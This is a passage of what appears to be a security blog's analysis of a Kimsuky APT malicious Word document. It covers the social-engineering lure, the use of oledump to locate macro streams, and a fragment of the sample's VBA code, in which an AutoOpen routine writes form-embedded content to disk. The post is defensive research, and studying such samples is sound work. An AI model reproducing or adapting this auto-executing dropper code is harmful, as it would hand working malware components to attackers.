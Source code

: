 ```yaml
---
title: Kimsuky APT Analysis 1
date: 2024-03-02 20:55:00 +0800
categories: [Malware,APT,Kimsuky]
tags: [Kimsuky]
---
```

### Introduction

[Kimsuky](https://apt.securelist.com/apt/kimsuky)  APT (also known as Thallium, Baby Coin, Smoke Screen) is a North Korean cyber-espionage actor involved in attacks targeting South Korean think tanks, Academia/Research , Government entities and Private companies since 2012. The group conducts cyber espionage operations to target government entities mainly in South Korea. Kimsuky like many other APTs deploys various methods of initial infection and today we are going to be looking into one of the sample which is using powershell to infect to the victim.

Like every malicious word file it tries to use social engineering to make the target click on the “ **enable content** ” to execute the malicious code of the macro. After enabling the macro, the content of the document changes and after searching the text it seems like an attack on South Korean news channel.

Let’s dive into the analysis of the macro using the tools called [Oletools](https://github.com/decalage2/oletools).

![Enable Macros](https://miro.medium.com/v2/resize:fit:4800/format:webp/0*dEcBHqYDoj9GNuJS.jpg "Macro Enabling")
### Ole Analysis

![Enable Macros](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*G6CYtMY7u-99vXBREc3M5A.png "Macro Enabling")

Enable MacrosUsing Oledump to find the macro stream

We use a tool called oledump from Oletools to dump all the macros stream and look inside the macros. You can read more about macros from [here](https://www.lifewire.com/introduction-to-microsoft-word-macros-4010368) . Oledump helps to identify those streams that contain macros by adding an upper or lower case M next to the index. A macro is observed in stream A3 and a small m stream in A4 and A13. A lower case m indicates that the stream contains macro attributes only , no actual macro code is inside it. One thing to notice is the size of the stream A13 even though it does not contains any macro code it still has a substantial size. We might find it’s references later.

*oledump -s A3 -v > A3*

![Oledump](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*B8NUxX5rKH7usZss_lAf2g.png "Macro Enabling")

The initial vector is a VBA macro which use an auto-execute function to get the content of theirs forms and execute in memory. The last two functions are useless therefore we are only going to a look at the malicious macro code only.

```
Sub AutoOpen()  
 delimage  
 interface  
 executeps  
 shlet  
 regpa  
End Sub  
Sub delimage()  
  Selection.Delete Unit:=wdCharacter, Count:=1  
End Sub  
Function interface()  
 TmpEditPath = tptkddlsjangkspdy.Controls(Len("z")).Value  
 Set JsEditContent = tptkddlsjangkspdy.Controls(3 - 1 - 1 - 1)  
 Open Trim(TmpEditPath) For Output As #2  
    Print #2, JsEditContent.Text  
 Close #2  
```